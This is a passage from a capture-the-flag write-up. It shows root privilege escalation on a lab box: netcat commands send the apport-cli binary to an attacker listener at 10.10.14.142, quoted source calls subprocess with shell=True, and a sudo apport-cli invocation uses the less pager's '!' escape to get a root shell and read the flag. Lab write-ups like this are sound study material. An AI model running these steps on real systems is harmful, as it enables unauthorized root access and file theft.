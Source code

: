 Host:
```bash
nc -lvp 6666 >apport-cli
```

Target:
```bash
nc 10.10.14.142 6666 </usr/bin/apport-cli
```


We should be able to execute commands by the looks of it.
```python
    def ui_run_terminal(self, command):
        # we are already running in a terminal, so this works by definition
        if not command:
            return True

        subprocess.call(command, shell=True)
```

I found a CVE for this:https://x.com/7h3h4ckv157/status/1728753489839628604

We should be able to execute commands because the pager used should be "less". In "less" we can run commands like this:
```bash
!id
```

Let's take advantage of this. We will first need a crash file.
```bash
sudo /usr/bin/apport-cli -c crash.crash less

!

V
```

![root](IMG/img11.png)

And it works! We are now root.

```bash
cat /root/root.txt
```

## We got the root flag!
